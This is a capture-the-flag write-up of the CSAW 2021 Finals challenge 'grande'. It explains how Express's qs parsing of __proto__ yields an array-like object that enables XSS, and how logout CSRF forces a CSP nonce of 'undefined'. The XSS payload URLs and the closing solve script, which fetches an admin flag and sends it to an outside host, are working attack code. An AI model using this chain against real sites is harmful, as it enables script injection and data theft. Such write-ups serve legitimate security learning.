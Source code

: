 ```yaml
---
title: CSAW Finals - Grande
description: How does express query parsing work??
---
```


I recently played CSAW CTF 2021 with PPP. I worked with [Anish](https://github.com/asinghani) on a cool challenge, grande, by [@itszn13](https://twitter.com/itszn13). This was an Express node application which exposed some interesting behavior about Express's query parsing. 

## Overview

There were two steps in the challenge. 

The first was a XSS. This required creating an array-like object for which `Array.isArray(obj) === false`, which can be done with `?next[__proto__]=first&next[__proto__]=second`. 

The second was a CSP bypass. In summary, the nonce got set to `undefined` when the `nonce` cookie is unset but the user session was not null. We could then abuse logout CSRF to force this condition, due to the `SameSite` properties of the cookies. 

<!--more-->

## Approach

### XSS

The first immediate thing I noted was the almost-XSS in the redirect handler. 
```javascript
// slightly condensed version 
express.response.redirect = function(url) {
  if (Array.isArray(url)) return this.status(400).end();

  let relative_url = url;
  if (url.indexOf(base_url) === 0) relative_url = url.slice(base_url.length);

  this.set('Location',relative_url);
  this.statusCode = 302;
  this.send(`<title>Redirecting...</title>
    <p><a href="${url}">Click here if not redirected...</a></p>`);
}

// ...

app.get('/next', (req, res) => {
	res.redirect(req.query.next || '/');
});
```

Specifically, the `${url}` is the `req.query.next` object which is an attacker supplied query paramter -- subject to whatever parsing constraints Express imposes. 

The `Location` header injection seemed very similar to the CRLF attack [I found previously against GitHub](/blog/2021/04/03/github-pages-xss). Thus, I was reasonably confident that in order for Chrome to render the 302 redirect body, the `Location` header needs to be empty or unset. Also, Express doesn't allow CRLF injection -- it maintains an allow-list of header values. Thus, we probably need a different approach from just `Location` header injection. 

Intuitively, many parts of the code seemed suspicious. Why was `.slice` used instead of `.substring`? Probably because `.slice` works for both strings and arrays... But then why is there an `Array.isArray` check? Note that if we could remove this check, an array like
```javascript
[ base_url, '"><script>alert()</script>']
```
would allow us to get XSS. 

This array would satisfy the `.includes` check, and then `.slice` would cause `relative_url == []`. The location header would not be set, and Chrome will render the body. 

The question is: how do we get such an object?

The heart of this challenge is the `__proto__` parsing quirk. I think there are two main observations required. The first is that creating an object like
```javascript
const obj = {
  "__proto__": [ 1, 2, 3 ]
}
```
is an array-like object but is not `Array.isArray`

```
> obj.includes
[Function: includes]
> obj.slice
[Function: slice]
> obj[0]
1
> Array.isArray(obj)
false
```

The second observation requires digging into Express query parsing.

After looking at the Express documentation, we found that Express uses the `qs` library to parse query strings. One cool trick is that you can actually just directly edit the files under `node_modules`. We can confirm the documentation by adding a `console.log` into `node_modules/qs/lib/parse.js`
```javascript
module.exports = function (str, opts) {
    console.log(str, opts);
    var options = normalizeParseOptions(opts);
```

After visiting an endpoint like `/next?next[]=test&&&zzzz`, we can confirm that indeed, our query string is logged. In particular, the query string is passed exactly as in, so we can be reasonably confident that all the parsing logic happens here. 
```
next[]=test&&&zzzz { allowPrototypes: true }
```

One interesting thing to note is Express's default of passing `allowPrototypes=true`. Looking at the `README.md` for `qs`, we come across an interesting warning.

> By default parameters that would overwrite properties on the object prototype are ignored, if you wish to keep the data from those fields either use `plainObjects` as mentioned above, or set `allowPrototypes` to `true` which will allow user input to overwrite those properties. *WARNING* It is generally a bad idea to enable this option as it can cause problems when attempting to use the properties that have been overwritten. Always be careful with this option.

Interesting, so it turns out Express explicitly allows assignment to special properties of objects. Normally, `next[a]=1&next[a]=2` would parse into
```
{
  "next": {
    "a": [1, 2]
  }
}
```

What happens if we replace `a` with `__proto__`? Turns out, it's exactly equivalent to 
```
{
  "next": {
    "__proto__": [1, 2]
  }
}
```

This is exactly the primitive we need! We can use something like `/next?next[__proto__]=https://grande-blog.site&next[__proto__]="><script>alert()</script>` to trigger XSS. Indeed, when trying this payload we get a CSP error indicating the browser attempted to execute our script. 
```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-186481b00e4949e5e51af1380a4e68f9fe7057eaaa1892897702a6d228d50463'". Either the 'unsafe-inline' keyword, a hash ('sha256-S8S/VNmXuUuoIR6OhqBqwIiIkuCxXq31hCCHAHnicV8='), or a nonce ('nonce-...') is required to enable inline execution.
```

Now to bypass CSP..

### CSP

The first observation is that `app.generate_nonce` will return `undefined` when the user has a not-null session. This behavior is a bit weird, considering `generate_nonce` returns the actual nonce otherwise. 
```javascript
app.generate_nonce = async function(req, res) {
  if (req.session?.user) return;
```

The second observation is that the CSP middleware will assign the session nonce to `app.generate_nonce` if `req.cookies.nonce === undefined`. 
```javascript
  // CSP middleware
  app.use(async function (req, res, next) {
    let nonce = req.cookies.nonce;
    if (!nonce)
      nonce = await app.generate_nonce(req, res)
```

We can easily confirm this with Chrome's developer tools by deleting the `nonce` cookie and checking the response headers. 
```
Content-Security-Policy: default-src 'none';script-src 'nonce-undefined';style-src 'nonce-undefined';connect-src *;img-src *;
```

Thus, if we could somehow unset the `nonce` cookie while still keeping the user logged in, we could force the nonce to `undefined` and bypass any protections with `<script nonce=undefined>`.

An understanding of how `SameSite` cookies work comes into handy here. The session cookie is set with `sameSite=lax` while the nonce cookie is set with `sameSite=none`. Thus, only the nonce cookie will be passed by the browser when using any of the site's endpoints from a different origin. 

Thus, only the nonce cookie would be set in `req.cookies`. This means that the logout endpoint will only unset the nonce cookie.
```javascript
app.get('/logout', (req, res) => {
  for (let c in req.cookies) {
    res.clearCookie(c);
    // Make sure this works in all cases
    res.clearCookie(c, {
      sameSite:'None', secure:true
    });
  }
  res.redirect(req.query.next || '/');
});
```

From here, we can easily set `nonce=undefined` on our scripts to bypass the CSP.
```javascript
<script nonce=undefined>
alert(location.origin);
</script>
```

## Solve Script

```javascript
fetch("https://grande-blog.site/logout?next=https://google.com", { mode: "no-cors", credentials: "include" }).then(() => {
  location = "https://grande-blog.site/next?next[__proto__]=https://grande-blog.site&next[__proto__]=%22%3E%3Cscript%20nonce=undefined%3E" + encodeURIComponent(`fetch("/admin/my_favorite_flag").then(a => a.text()).then(a => {
  const val = a.indexOf("flag{");
  a = a.slice(val - 10, val + 50);
  location = ("http://robertchen.cc/xxx" + btoa(a))
  });`) + "%3C/script%3E";
});
```
